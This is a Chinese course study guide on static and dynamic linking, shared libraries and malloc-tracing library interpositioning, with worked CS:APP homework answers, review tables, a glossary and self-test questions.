共享库针对的是静态库的三个缺点（p.45）：每个可执行文件里都有一份库代码的拷贝，浪费磁盘；每个运行中的进程里又各有一份，浪费内存；库修正之后所有程序必须重新链接。共享库的基本思想是把链接推迟：库的代码和数据不复制进可执行文件，而是在程序加载时（或运行时）由动态链接器加载到内存并与程序链接。磁盘上一个库只有一个 .so 文件；内存中库的代码只有一份，被所有使用它的进程共享（15.11 节）。为了让同一份代码能被映射到不同进程的不同地址，共享库要编译成位置无关代码，通过 GOT 和 PLT 访问外部的数据和函数（15.12 节）。
生成共享库的命令是（p.47）：
linux> gcc -Og -c addvec.c multvec.c -fpic
linux> gcc -shared -o libvector.so addvec.o multvec.o-fpic 要求编译器生成位置无关代码；-shared 要求链接器生成共享目标文件而不是可执行文件。生成的 libvector.so 在 ELF 头中的类型是 DYN，它有程序头部表（能被加载），有动态符号表 .dynsym（nm -D libvector.so 列出其中的 addvec 和 multvec），代码里的地址都是相对于库起点的偏移（addvec 在 0x10f9）。
与共享库链接的主要过程分两个阶段，见图 8（a）。生成可执行文件时（gcc -o prog2l main2.c ./libvector.so），静态链接器做符号解析，确认 addvec 定义在 libvector.so 中、printf 定义在 libc.so 中，但不复制库的代码和数据，只在 prog2l 中记下三类信息：依赖哪些库（.dynamic 节的 NEEDED 条目）、用哪个动态链接器（.interp 节）、哪些引用留待运行时处理（.rela.plt 等重定位节和 .dynsym 符号表），并为每个要调用的库函数建立 PLT 和 GOT 条目。程序加载时，加载器发现 .interp 节，先运行动态链接器；动态链接器把 libc.so 和 libvector.so 映射进进程的地址空间，重定位它们的数据，再把 prog2l 中对库符号的引用（GOT 条目）填成实际地址，然后把控制交给程序的入口。
2（5）基于课件第 47～51 页，讲解不同时段（编译时、加载时、运行时）的动态链接的实现方式，并比较他们的差异。
课件用同一个向量库做了三个版本的程序，文件名的最后一个字母标明了链接发生的时刻：prog2c（compile-time，编译时，即静态链接）、prog2l（load-time，加载时动态链接）、prog2r（run-time，运行时动态链接）。三者的实现方式分别在 15.10、15.11、15.13 节讲过，表 14把它们并排比较，其中的数据都是默认环境上的实测结果。
表 14 同一个库在三个时刻链接（默认环境实测）
| 比较项 | 编译时（prog2c） | 加载时（prog2l） | 运行时（prog2r） |
|---|---|---|---|
| 构建命令 | gcc -static -o prog2c main2.o -L. -lvector | gcc -o prog2l main2.c ./libvector.so | gcc -rdynamic -o prog2r dll.c -ldl |
| 库的形式 | 静态库 libvector.a | 共享库 libvector.so | 共享库 libvector.so |
| 由谁完成链接 | 静态链接器 ld，一次完成 | ld 先做一部分；加载时由动态链接器完成其余部分 | 程序运行中调用 dlopen，由动态链接器完成 |
| 构建时链接器是否知道这个库 | 知道，并复制了 addvec.o | 知道，记下了库名和待解析的符号 | 不知道，库名只是程序里的一个字符串 |
| 源程序怎样调用 addvec | 直接调用 | 直接调用（经过 PLT） | dlsym 取得地址，通过函数指针调用 |
| 可执行文件大小 | 785,464 字节 | 16,080 字节 | 16,328 字节 |
| ldd 的输出 | not a dynamic executable | libvector.so、libc.so.6、动态链接器 | 只有 libc.so.6 和动态链接器 |
| 运行时缺少 libvector.so | 不受影响，照常输出 | 无法启动：error while loading shared libraries | 能启动，执行到 dlopen 时失败，由程序自己处理 |
| 库更新后 | 必须重新链接 | 下次运行自动使用新库 | 下次 dlopen 时使用新库，甚至不必重启程序 |
从左到右，链接发生得越来越晚，可执行文件与库的绑定也越来越松。编译时链接把库的代码固定在可执行文件里，运行时没有任何额外开销，也不依赖外部文件，代价是体积大、不能共享、更新要重新链接。加载时链接是最常用的折中：程序员写代码的方式和静态链接完全一样，区别只在构建命令；库的存在与否、符号是否齐全在启动时一次检查完毕。运行时链接最灵活：加载哪个库、调用哪个函数可以由程序在运行中决定（比如根据配置文件或用户请求），库不存在时程序也可以选择其他处理方式；代价是程序员要显式地使用 dlopen、dlsym、dlclose 接口，编译器无法检查函数的类型，出错要到运行时才暴露。表中倒数第二行是实测的：把 libvector.so 移走之后，prog2c 照常输出 z = [4 6]；prog2l 在进入 main 之前就被动态链接器终止；prog2r 正常启动，在 dlopen 处得到 NULL，按 dll.c 的写法打印 dlerror 返回的信息“./libvector.so: cannot open shared object file”并以状态 1 退出。
2（6）基于课件第 53 页，并结合前面内容，比较静态链接和动态链接各自的优缺点。
完整的比较见 15.14 节的表 10，这里归纳要点。静态链接的优点是运行时不需要查找和加载库，函数调用是直接的、没有 PLT 的间接跳转，可执行文件自成一体，拿到任何同类系统上都能运行，行为不受系统上库版本的影响。缺点是每个可执行文件、每个运行的进程里都有一份库代码，占用更多磁盘和内存（实测 hello 程序静态链接 785,384 字节、动态链接 15,960 字节，相差约 49 倍）；库的任何修正都要求重新链接所有用到它的程序。
动态链接的优点正好相反：可执行文件小，库的代码在磁盘上只有一份；多个进程共享内存中同一份库代码，常用的库（如 C 库）几乎总是已经在内存和处理器缓存里；库可以独立更新。缺点是有额外的开销，加载时要查找库并做重定位，每次调用库函数要多经过一次 PLT 和 GOT 的间接跳转，访问库的全局变量要多一次经过 GOT 的间接访问；此外程序依赖运行环境，缺少库或库的版本不兼容时无法运行。
2（7）讲解编译时“库插桩”的具体操作；（拓展研讨）：尝试运行验证课件上的示例。
编译时打桩的完整讲解和代码见 15.15 节。具体操作分三步。第一步，写包装函数 mymalloc 和 myfree（mymalloc.c 中 COMPILETIME 部分），在其中调用真正的 malloc、free 并打印跟踪信息。第二步，在当前目录写一个本地的 malloc.h，用宏 #define malloc(size) mymalloc(size) 和 #define free(ptr) myfree(ptr) 把目标函数的名字换成包装函数，并声明两个包装函数的原型。第三步，用两条搜索路径不同的命令构建：gcc -Wall -DCOMPILETIME -c mymalloc.c 编译包装函数时不加 -I.，使其中的 malloc.h 是系统头文件；gcc -Wall -I. -o intc int.c mymalloc.o 编译主程序时加 -I.，使其中的 malloc.h 是本地头文件。
在默认环境上验证课件的示例，构建成功（gcc 13 对 myfree 中“释放之后又打印指针的值”给出一条 -Wuse-after-free 警告，这里只是打印地址、没有解引用，不影响结果），运行输出与课件格式一致：
linux> ./intc 10 100 1000
malloc(10)=0x56253faab2a0
free(0x56253faab2a0)
malloc(100)=0x56253faac2d0
free(0x56253faac2d0)
malloc(1000)=0x56253faac340
free(0x56253faac340)
linux> nm intc | grep -E " (mymalloc|myfree)$"
000000000000125a T myfree
0000000000001211 T mymalloc三次分配的地址依次增大：第一块释放后，第二次请求 100 字节，原来那块太小不能重用，分配器在堆上往后分配。第一个地址与后两个相隔较远（0x...b2a0 与 0x...c2d0），中间隔着的 0x1010 字节是第一次调用 printf 时 C 库为标准输出分配的 4096 字节缓冲区；这一次分配发生在包装函数内部的 printf 里，没有经过宏替换，所以没有被跟踪到。这个细节也预示了运行时打桩会遇到的问题。
2（8）讲解链接时“库插桩”的具体操作；（拓展研讨）：尝试运行验证课件上的示例。
链接时打桩利用静态链接器的 --wrap 选项（15.15 节；2026 版课件没有代码页，示例取自 2025 版课件 p.61–62 和教材图 7.21）。具体操作分三步。第一步，写包装函数并按约定命名为 __wrap_malloc 和 __wrap_free，在其中调用 __real_malloc 和 __real_free（mymalloc.c 中 LINKTIME 部分）。第二步，照常分别编译：gcc -Wall -DLINKTIME -c mymalloc.c 和 gcc -Wall -c int.c，这一次不需要本地头文件。第三步，链接时给链接器传 --wrap 选项：gcc -Wall -Wl,--wrap,malloc -Wl,--wrap,free -o intl int.o mymalloc.o。
验证时先看链接前两个目标文件的符号，再运行：
linux> nm int.o
U atoi
U free
0000000000000000 T main
U malloc
linux> nm mymalloc.o
U __real_free
U __real_malloc
0000000000000049 T __wrap_free
0000000000000000 T __wrap_malloc
U printf
linux> ./intl 10 100 1000
malloc(10) = 0x55ba5412d2a0
free(0x55ba5412d2a0)
malloc(100) = 0x55ba5412e2d0
free(0x55ba5412e2d0)
malloc(1000) = 0x55ba5412e340
free(0x55ba5412e340)int.o 的未定义符号还是 malloc 和 free，源程序和编译过程都没有被动过；改变的只是链接器的解析规则：int.o 的 malloc 被解析到 __wrap_malloc，mymalloc.o 的 __real_malloc 被解析到 C 库的 malloc。如果去掉 --wrap 选项直接链接，会得到“undefined reference to __real_malloc”的错误，因为并不存在叫这个名字的函数。
2（9）讲解加载/运行时“库插桩”的具体操作；（拓展研讨）：尝试运行验证课件上的示例。
运行时打桩利用动态链接器的 LD_PRELOAD 环境变量（15.15 节）。具体操作分三步。第一步，写与库函数同名的包装函数 malloc 和 free（mymalloc.c 中 RUNTIME 部分），在其中用 dlsym(RTLD_NEXT, "malloc") 取得搜索顺序中下一个库（即 C 库）里真正的 malloc 的地址，通过函数指针调用它。第二步，把包装函数编译成共享库：gcc -Wall -DRUNTIME -shared -fpic -o mymalloc.so mymalloc.c -ldl；主程序完全照常编译：gcc -Wall -o intr int.c。第三步，运行时设置环境变量：LD_PRELOAD="./mymalloc.so" ./intr 10 100 1000。动态链接器解析 intr 对 malloc 和 free 的引用时先搜索 mymalloc.so，于是绑定到包装函数上。
在默认环境上验证时，课件的代码原样运行会以段错误结束，没有任何输出：
linux> LD_PRELOAD="./mymalloc.so" ./intr 10 100 1000
Segmentation fault
linux> echo $?
139原因在 15.15 节的橙色方框里分析过：包装函数 malloc 里的 printf 在第一次输出时要为标准输出分配缓冲区，这次分配又进入包装函数 malloc，再次调用 printf，如此无穷递归。给包装函数加上“正在包装函数内部”的标志，递归进入时只转发不打印，问题就解决了；修正后的版本输出正确：
linux> LD_PRELOAD=./mymalloc.so ./intr 10 100 1000
malloc(10) = 0x55e0af4c32a0
free(0x55e0af4c32a0)
malloc(100) = 0x55e0af4c42d0
free(0x55e0af4c42d0)
malloc(1000) = 0x55e0af4c4340
free(0x55e0af4c4340)
linux> LD_PRELOAD=./mymalloc.so /usr/bin/uname
malloc(34) = 0x55a4bd1622a0
malloc(10) = 0x55a4bd1632e0
Linux第二条命令展示了运行时打桩独有的能力：uname 是系统自带的程序，我们没有它的源代码，也没有重新链接它，照样跟踪到了它内部的两次 malloc 调用。三种打桩方式的比较见表 11。
第三部分 作业题解答：7.6、7.8、7.12#
三道作业题在中文版第 497–499 页，英文国际版的题目与之相同。7.6 和 7.12 用到的 m.o 是教材图 7.5 的主模块，源代码如下；解答中的符号表和反汇编都在默认环境上用 gcc 13 编译核对过。
/* m.c（教材图 7.5） */
void swap();
int buf[2] = {1, 2};
int main()
{
swap();
return 0;
}作业 7.6#
7.6这道题是关于图 7-5 的 m.o 模块和下面的 swap.c 函数版本的，该函数计算自己被调用的次数。对于每个 swap.o 中定义和引用的符号，请指出它是否在模块 swap.o 的 .symtab 节中有符号表条目。如果是这样，请指出定义该符号的模块（swap.o 或 m.o）、符号类型（局部、全局或外部）以及它在模块中所处的节（.text、.data 或 .bss）。
1 extern int buf[];
2
3 int *bufp0 = &buf[0];
4 static int *bufp1;
5
6 static void incr()
7 {
8 static int count=0;
9
10 count++;
11 }
12
13 void swap()
14 {
15 int temp;
16
17 incr();
18 bufp1 = &buf[1];
19 temp = *bufp0;
20 *bufp0 = *bufp1;
21 *bufp1 = temp;
22 }判断每个名字时依次问三个问题：它是不是链接器符号（普通局部变量不是）；它在哪个模块定义、有没有 static（决定是外部、全局还是局部）；它是函数、已初始化的数据还是未初始化或初值为 0 的数据（决定在 .text、.data 还是 .bss）。答案见表 15。
表 15 作业 7.6 的答案
| 符号 | swap.o 的 .symtab 中有条目？ | 符号类型 | 定义符号的模块 | 节 | 依据 |
|---|---|---|---|---|---|
| buf | 是 | 外部 | m.o | .data | 本模块只有 extern 声明；m.c 中 buf 有初值 |
| bufp0 | 是 | 全局 | swap.o | .data | 非 static、已初始化的全局变量 |
| bufp1 | 是 | 局部 | swap.o | .bss | static、未初始化 |
| swap | 是 | 全局 | swap.o | .text | 非 static 函数 |
| temp | 否 | — | — | — | 普通局部变量，在栈上或寄存器里 |
| incr | 是 | 局部 | swap.o | .text | static 函数 |
| count | 是 | 局部 | swap.o | .bss | 局部静态变量，初值为 0 |
有三处容易答错。bufp1 与练习题 7.1 中的同名变量不同：那里它没有 static，是未初始化的全局变量，答案是“全局、COMMON”；这里加了 static，别的模块看不见，编译器直接把它分配在 .bss。count 写了初值，但初值是 0，初始化为 0 的静态变量放在 .bss 而不是 .data；它虽然定义在函数内部，却是静态的，所以有符号表条目，而同在函数内部的 temp 没有。buf 在 swap.o 的符号表里是一个 UND 条目，题目问的“节”指的是它在定义模块 m.o 中的位置。
实测 readelf -s swap.o 的结果与表一致：
Num: Value Size Type Bind Vis Ndx Name
3: 0000000000000000 8 OBJECT LOCAL DEFAULT 5 bufp1 （5 号节是 .bss）
4: 0000000000000000 22 FUNC LOCAL DEFAULT 1 incr （1 号节是 .text）
5: 0000000000000008 4 OBJECT LOCAL DEFAULT 5 count.0
6: 0000000000000000 8 OBJECT GLOBAL DEFAULT 3 bufp0 （3 号节是 .data）
7: 0000000000000000 0 NOTYPE GLOBAL DEFAULT UND buf
8: 0000000000000016 74 FUNC GLOBAL DEFAULT 1 swap符号表里没有 temp。count 的名字被改成了 count.0，以免与别的函数中同名的静态变量冲突（15.4 节）。swap.o 还有一个 .rela.data 节，其中一条 R_X86_64_64 类型的条目对应第 3 行的 int *bufp0 = &buf[0];：bufp0 的初值是 buf 的地址，要等链接时才能填。
作业 7.8#
7.8在此题中，REF(x.i) → DEF(x.k) 表示链接器将任意对模块 i 中符号 x 的引用与模块 k 中符号 x 的定义相关联。在下面每个例子中，用这种符号来说明链接器是如何解析在每个模块中有多重定义的引用的。如果出现链接时错误（规则 1），写“错误”。如果链接器从定义中任意选择一个（规则 3），那么写“未知”。
A. /* Module 1 */ B. /* Module 1 */ C. /* Module 1 */
int main() int x; int x=1;
{ void main() void main()
} { {
} }
/* Module 2 */
static int main=1; /* Module 2 */ /* Module 2 */
int p2() double x; double x=1.0;
{ int p2() int p2()
} { {
} }按 15.5 节的三条规则逐个分析。
先看 A 组。模块 1 的 main 是函数，是强的全局符号。模块 2 的 main 带 static，是局部符号，只在模块 2 内可见，根本不参与全局符号的解析，两者没有冲突。所以（a）REF(main.1) → DEF(main.1)；（b）REF(main.2) → DEF(main.2)。模块 2 内部提到 main 时，指的是它自己的那个静态整型变量。
再看 B 组。两个模块中的 x 都是未初始化的全局变量，都是弱符号，适用规则 3，链接器任选一个。所以（a）REF(x.1) → DEF(未知)；（b）REF(x.2) → DEF(未知)。
最后看 C 组。两个模块中的 x 都有初值，都是强符号，违反规则 1。所以（a）和（b）都是“错误”。
⚠ 题目中的印刷错误，以及新版 gcc 上的实际结果
A 组模块 2 的第一行在中文版和英文版教材中都印成了 static int main=1[，行末的方括号应为分号。另外，本题按教材的传统规则作答。在默认环境上实测：A 组链接成功，模块 2 的 main 在符号表中是 LOCAL；C 组报错 multiple definition of 'x'；B 组在加 -fcommon 时链接成功，不加时因为 gcc 10 以后默认把未初始化的全局变量当作强符号，同样报错 multiple definition of 'x'（15.5 节）。加 -fcommon 链接 B 组时，GNU ld 为 x 分配了 8 字节（两个定义中较大的那个），但这是链接器的具体做法，题目要的答案仍是“未知”。
作业 7.12#
7.12考虑目标文件 m.o 中对函数 swap 的调用（作业题 7.6）。它的 callq 指令是“9: e8 00 00 00 00 callq e <main+0xe>”，具有如下重定位条目：r.offset = 0xa，r.symbol = swap，r.type = R_X86_64_PC32，r.addend = −4。A. 假设链接器将 m.o 中的 .text 重定位到地址 0x4004e0，把 swap 重定位到地址 0x4004f8。那么 callq 指令中对 swap 的重定位引用的值应该是什么？B. 假设链接器将 m.o 中的 .text 重定位到地址 0x4004d0，把 swap 重定位到地址 0x400500。那么 callq 指令中对 swap 的重定位引用的值应该是什么？
这是 15.7 节算法的直接应用。PC 相对引用的计算分两步：先求被修改位置的运行时地址 refaddr = ADDR(s) + r.offset，再求填入的值 *refptr = ADDR(r.symbol) + r.addend − refaddr。这里 s 是 m.o 的 .text 节。
A. refaddr = 0x4004e0 + 0xa = 0x4004ea，填入的值是 0x4004f8 + (−4) − 0x4004ea = 0xa。重定位后的指令是 4004e9: e8 0a 00 00 00 callq 4004f8 <swap>。
B. refaddr = 0x4004d0 + 0xa = 0x4004da，填入的值是 0x400500 + (−4) − 0x4004da = 0x22。重定位后的指令是 4004d9: e8 22 00 00 00 callq 400500 <swap>。
两个结果都可以用“下一条指令的地址加偏移等于目标地址”来验算。call 指令从 .text 的偏移 9 开始，长 5 字节，下一条指令在偏移 0xe。A 中下一条指令的地址是 0x4004e0 + 0xe = 0x4004ee，加上 0xa 得 0x4004f8；B 中是 0x4004d0 + 0xe = 0x4004de，加上 0x22 得 0x400500，都正好是 swap 的地址。验算时记住基准是下一条指令（偏移 0xe），不是 call 指令自己的地址（偏移 9），也不是被修改的那 4 个字节的地址（偏移 0xa）；公式里的 −4 正是 0xa 与 0xe 之间的差。
用 gcc 13 以 -fno-pie 编译 m.c，得到的 call 指令同样位于偏移 9、重定位条目的偏移同样是 0xa、加数同样是 −4，只是类型显示为 R_X86_64_PLT32；swap 定义在可执行文件内部时，它的计算公式与 R_X86_64_PC32 相同（15.8 节）。
第四部分 复习速查#
4.1 链接一页纸#
表 16 静态链接的要点
| 项目 | 要点 |
|---|---|
| 编译驱动程序 | gcc 依次调用 cpp（.c 变 .i，文本替换）、cc1（.i 变 .s）、as（.s 变 .o）、ld（.o 和库变可执行文件）；对应选项 -E、-S、-c；gcc -v 显示全过程 |
| 链接的好处 | 模块化（多个源文件、库）；效率（分别编译节省时间，库节省空间） |
| 三种目标文件 | 可重定位（.o）、可执行、共享（.so）；都是 ELF 格式 |
| ELF 的结构 | ELF 头、程序头部表（可执行文件必需）、各个节、节头部表（链接必需）；链接视图按节，执行视图按段 |
| 各节的内容 | .text 代码；.rodata 只读数据；.data 已初始化（非 0）的全局和静态变量；.bss 未初始化或初值为 0 的全局和静态变量，文件中不占空间；.symtab 符号表；.rela.text、.rela.data 重定位条目；.debug 调试信息；.strtab 字符串表 |
| 链接器符号 | 全局符号（非 static 的函数和全局变量）、外部符号（引用别处定义的全局符号，UND）、局部符号（static 的函数和变量，包括函数内的 static 变量）；普通局部变量不是符号 |
| 强与弱 | 强：函数、已初始化的全局变量；弱：未初始化的全局变量（COMMON）。gcc 10 起默认 -fno-common，未初始化的全局变量也是强符号 |
| 三条规则 | 多个强符号报错；一强多弱选强；多个弱任选一个。链接器不检查类型 |
| 重定位两步 | 先合并同类节并给节和符号分配运行时地址；再按重定位条目修改代码和数据中的引用 |
| 重定位条目 | offset（改哪里，节内偏移）、symbol（指向谁）、type（怎么改）、addend（加数）；x86-64 上每条 24 字节，存放在 .rela.text 和 .rela.data |
| PC 相对引用 | R_X86_64_PC32：refaddr = ADDR(s) + offset，填入 ADDR(symbol) + addend − refaddr（32 位有符号补码，可为负，执行时符号扩展）；call 的 addend 是 −4；验算：下一条指令地址 + 填入值 = 目标地址 |
| 绝对引用 | R_X86_64_32：填入 ADDR(symbol) + addend，按小端法写 4 个字节 |
| 加载 | 加载器按程序头部表把代码段、数据段映射进内存，跳到入口点 _start，它调用 __libc_start_main，再调用 main；内存自低向高：代码段、数据段、堆、共享库区域、栈、内核 |
表 17 库、动态链接与打桩的要点
| 项目 | 要点 |
|---|---|
| 静态库 | 用 ar rs 把若干 .o 打包成 .a 存档；链接器只复制存档中被引用的成员 |
| 解析算法 | 从左到右扫描命令行，维护 E（要链接的文件）、U（未解析的引用）、D（已定义的符号）；遇到存档只取能解析 U 中符号的成员；结束时 U 非空则报错 |
| 命令行顺序 | 库放在末尾；被依赖的库放在后面；互相依赖时重复写库名 |
| 共享库 | gcc -shared -fpic 生成 .so；代码不复制进可执行文件；磁盘上一份、内存中代码一份；可独立更新 |
| 加载时链接 | ld 只记录库名、符号和重定位信息（部分链接）；加载器根据 .interp 启动动态链接器，由它加载库并完成重定位 |
| 位置无关代码 | 模块内部用 PC 相对寻址；外部数据经 GOT 间接访问；外部函数经 PLT 和 GOT 调用，延迟绑定时第一次调用才解析并改写 GOT 条目 |
| 运行时链接 | dlopen 加载库、dlsym 查符号、dlclose 卸载、dlerror 取错误信息；构建时链接器不知道这个库 |
| 查看依赖 | .interp 存放动态链接器路径；.dynamic 的 NEEDED 条目列出依赖的库；ldd 显示实际会加载的库 |
| 静态与动态 | 静态：自成一体、无运行时查找和间接跳转，但体积大、不共享、更新需重新链接；动态：相反 |
| 编译时打桩 | 本地 malloc.h 用宏把 malloc 换成 mymalloc，gcc -I. 让它先被找到；需要源代码 |
| 链接时打桩 | -Wl,--wrap,malloc：malloc 解析为 __wrap_malloc，__real_malloc 解析为 malloc；需要 .o 文件 |
| 运行时打桩 | LD_PRELOAD 指定的共享库先被搜索；包装函数与库函数同名，用 dlsym(RTLD_NEXT, ...) 找到真函数；只要求程序是动态链接的 |
表 18 常用工具
| 工具 | 用途 |
|---|---|
| ar | 创建静态库，插入、删除、列出（-t）、提取（-x）成员 |
| nm | 列出目标文件符号表中的符号：T 代码、D 已初始化数据、B 未初始化数据、U 未定义；小写字母表示局部符号 |
| readelf | 显示 ELF 文件的结构：-h ELF 头，-S 节头部表，-s 符号表，-r 重定位条目，-l 程序头部表，-d 动态节，-x 以十六进制显示某个节 |
| objdump | -d 反汇编，-r 显示重定位条目（常用 -dr），-t 符号表，-s 显示节的内容 |
| ldd | 列出可执行文件运行时需要的共享库 |
| strings、strip、size | 列出文件中的可打印字符串；删除符号表信息；列出各节的大小 |
| gcc 的相关选项 | -E、-S、-c 停在某一阶段；-v 显示各阶段命令；-static 静态链接；-shared -fpic 生成共享库；-L 目录、-l 库名；-Wl,选项 把选项传给链接器；-fno-pie、-no-pie 关闭位置无关可执行文件；-fcommon 恢复弱符号的传统行为 |
4.2 易错点#
⚠ 本讲最容易混淆的地方
第一，链接器的“局部符号”不是 C 的局部变量。带 static 的函数、全局变量和函数内的静态变量是局部符号，在符号表里有条目；普通的局部变量和参数在栈上或寄存器里，符号表里没有。
第二，变量放在哪个节取决于有没有非 0 的初值，而不取决于有没有 static。初值非 0 的在 .data，未初始化或初值为 0 的在 .bss；static 只影响符号是全局还是局部。
第三，声明不是定义。extern int x; 和函数原型只产生 UND 引用（没被用到时连引用都没有），不是弱符号；int x; 才是（弱的）定义。
第四，套重定位公式时，ADDR(s) 是引用所在的那个输入节被安排到的地址（对只有一个函数的模块来说就是这个函数的地址），不是可执行文件整个 .text 节的起点；offset 是被修改的 4 个字节的位置，不是指令的起始位置。
第五，PC 相对引用填入的是“目标地址 − 下一条指令地址”，可以是负数；填入的值按小端法存放。绝对引用填入的就是地址本身。
第六，静态库在命令行上的位置决定了它能否起作用：排在引用它的目标文件之前的库，等于没有写。
第七，共享库的代码不在可执行文件里。动态链接的可执行文件只是“部分链接”的，离开了它依赖的 .so 文件就无法启动；dlopen 加载的库甚至不出现在 ldd 的输出里。
第八，三种打桩方式中包装函数的名字各不相同：编译时是 mymalloc，链接时是 __wrap_malloc，运行时就叫 malloc。运行时的包装函数会截获进程内所有的 malloc 调用，包括 C 库内部的调用，所以包装函数里使用 printf 之类的库函数要防止递归。
第九，在新版 gcc 上做实验时，记得课件的三处默认行为已变：未初始化的全局变量重名会报错（要加 -fcommon）；代码默认位置无关（要加 -fno-pie 和 -no-pie）；函数调用的重定位类型显示为 R_X86_64_PLT32。
4.3 术语对照#
表 19 第 15 讲术语
| 英文 | 中文 | 首次出现 |
|---|---|---|
| linking / linker | 链接 / 链接器 | 15.1 |
| compiler driver | 编译驱动程序 | 15.1 |
| preprocessor / compiler / assembler | 预处理器 / 编译器 / 汇编器 | 15.1 |
| static linking | 静态链接 | 15.2 |
| separate compilation | 分别编译 | 15.2 |
| symbol resolution | 符号解析 | 15.2 |
| symbol table | 符号表 | 15.2 |
| relocation | 重定位 | 15.2 |
| relocatable / executable / shared object file | 可重定位 / 可执行 / 共享目标文件 | 15.3 |
| ELF (Executable and Linkable Format) | 可执行可链接格式 | 15.3 |
| section / section header table | 节 / 节头部表 | 15.3 |
| segment / program header table | 段 / 程序头部表（段头部表） | 15.3 |
| global / external / local symbol | 全局 / 外部 / 局部符号 | 15.4 |
| pseudosection (UNDEF, ABS, COMMON) | 伪节 | 15.4 |
| strong / weak symbol | 强符号 / 弱符号 | 15.5 |
| relocation entry | 重定位条目 | 15.7 |
| PC-relative / absolute address | PC 相对地址 / 绝对地址 | 15.7 |
| addend | 加数 | 15.7 |
| entry point | 入口点 | 15.9 |
| loader / loading | 加载器 / 加载 | 15.9 |
| static library / archive | 静态库 / 存档 | 15.10 |
| shared library | 共享库 | 15.11 |
| dynamic linking / dynamic linker | 动态链接 / 动态链接器 | 15.11 |
| load-time / run-time linking | 加载时 / 运行时链接 | 15.11 |
| position-independent code (PIC) | 位置无关代码 | 15.12 |
| global offset table (GOT) | 全局偏移量表 | 15.12 |
| procedure linkage table (PLT) | 过程链接表 | 15.12 |
| lazy binding | 延迟绑定 | 15.12 |
| library interpositioning | 库打桩 | 15.15 |
| wrapper function | 包装函数 | 15.15 |
第五部分 自测题#
以下题目为新编，涉及符号表、链接结果、地址计算和程序输出的，都在默认环境上用 gcc 13 实际编译运行核对过。除特别说明外，强弱符号按课件和教材的传统规则作答。答案在本部分末尾。
1．下面的 t1.c 被编译成 t1.o。对每个名字（N、rate、total、limit、hist、tag、clamp、step、calls、update、v、t），指出它在 t1.o 的符号表中有没有条目；如果有，说明它是全局、外部还是局部符号，以及定义它的节（外部符号除外）。
#define N 4
extern double rate;
static long total;
long limit = 100;
int hist[N];
static const char tag[] = "v1";
long clamp(long v);
static long step(long v)
{
static int calls = 1;
calls++;
return v * calls;
}
long update(long v)
{
long t = step(v);
total += t;
hist[0]++;
return clamp(total) + (long)rate + tag[0];
}2．下面四组程序各由两个模块组成。按传统规则，分别说明链接能否成功；能成功的，指出每个模块中对重名符号的引用被解析到哪个模块的定义。再回答：哪几组在 gcc 13 的默认选项下结果会不同？
(a) /* 模块 1 */ /* 模块 2 */
int n = 3; int n;
int f(void) { return n; } static int f(void) { return 1; }
int main(void) { return f(); } int g(void) { return f() + n; }
(b) long k; int k;
int main(void) { return 0; } void g(void) { k = 1; }
(c) int m = 1; int m = 1;
int main(void) { return 0; } void g(void) { }
(d) void g(void); void v(void) { }
int v; void g(void) { }
int main(void) { g(); return v; }3．（a）某个可重定位目标文件的 .text 节中，偏移 0x2e 处是一条 call 指令 e8 00 00 00 00，它有一个重定位条目：offset = 0x2f，symbol = f，type = R_X86_64_PC32，addend = −4。链接器把这个 .text 节安排在 0x401200，把 f 安排在 0x401260。写出重定位之后这条指令的 5 个字节。（b）在另一个可执行文件中，地址 0x401310 处的指令是 e8 9b fe ff ff。它调用的函数的地址是多少？
4．模块的 .text 节被安排在 0x401200，全局数组 tab 被安排在 0x404060。（a）指令 movl $tab+8, %esi 的立即数字段有重定位条目 type = R_X86_64_32，symbol = tab，addend = 8。重定位后立即数字段的 4 个字节是什么？（b）指令 movl tab+4(%rip), %eax 的位移量字段位于 .text 的偏移 0x52 处，位移量之后就是下一条指令，重定位条目的 type 是 R_X86_64_PC32，symbol = tab。这个条目的 addend 应该是多少？重定位后位移量字段的值是多少？
5．当前目录下有 p.o 和两个静态库。p.o 调用 a1；liba.a 的成员 a1.o 定义 a1 并调用 b1，成员 a2.o 定义 a2；libb.a 的成员 b1.o 定义 b1 并调用 a2，成员 b2.o 定义 b2 并调用一个哪里都没有定义的函数 c1。（a）命令 gcc p.o liba.a libb.a 能否链接成功？如果不能，报告哪个符号未定义？（b）写出能够成功链接的、参数个数最少的命令。（c）b2.o 引用了没有定义的 c1，为什么（b）中的命令不报错？
6．下面的程序用 gcc -no-pie -fno-pie 编译。（a）说明 counts、primes、banner、runs、local 以及 p 指向的 8 个字节各自位于运行时内存的哪个区域（或可执行文件的哪个节）。（b）readelf -l 显示数据段的 FileSiz 是 0x248、MemSiz 是 0x1210，两者为什么不相等？相差的 0xfc8 字节主要是什么？（c）把第 3 行改成 int counts[1000] = {1};，可执行文件的大小会怎样变化？
#include <stdio.h>
#include <stdlib.h>
int counts[1000];
int primes[4] = {2, 3, 5, 7};
const char banner[] = "ok";
int main(void)
{
static int runs;
int local = 0;
char *p = malloc(8);
/* ... */
return 0;
}7．一个动态链接的可执行文件调用共享库函数 addvec，使用延迟绑定。addvec 的 PLT 条目位于 0x401040，共三条指令：jmp *GOT[4]、push $0x1（位于 0x401046）、jmp PLT[0]。（a）程序刚加载完、还没有调用过 addvec 时，GOT[4] 的值是多少？（b）第一次调用 addvec 时，控制依次经过哪些地方才到达 addvec？（c）第二次调用时呢？（d）如果可执行文件带有 BIND_NOW 标记，（a）的答案有什么变化？
8．某同学想重现课件的重定位例子，依次执行了下面两条命令，第二条命令报错。解释错误的原因，并给出改正的办法。
linux> gcc -fno-pie -c main.c sum.c
linux> gcc -o prog main.o sum.o
/usr/bin/ld: main.o: relocation R_X86_64_32 against symbol `array' can not be used
when making a PIE object; recompile with -fPIE9．（a）下面三种情形分别适合用哪一种库打桩方式跟踪 malloc 的调用：有全部源代码；只有各个 .o 文件和链接命令；只有一个动态链接的可执行文件。（b）做编译时打桩时，如果编译 mymalloc.c 的命令也加上了 -I.，程序运行时会发生什么？（c）运行时打桩的包装函数为什么不能包含本地的 malloc.h，也不需要 __wrap_ 前缀？
10．下面的程序由两个模块组成。用 gcc -fcommon -fno-pie -no-pie -fcf-protection=none 编译并运行，它不报错，输出 0x55；再加上 -Og 选项重新编译，输出变成 0x48。（a）解释为什么能够链接成功，输出的数字是什么。（b）为什么加了 -Og 后数字不同？（c）在 gcc 13 上不加 -fcommon 编译，会得到什么结果？
/* foo6.c */ /* bar6.c */
void p2(void); #include <stdio.h>
int main() char main;
{
p2(); void p2()
return 0; {
} printf("0x%x\n", main);
}自测题答案#
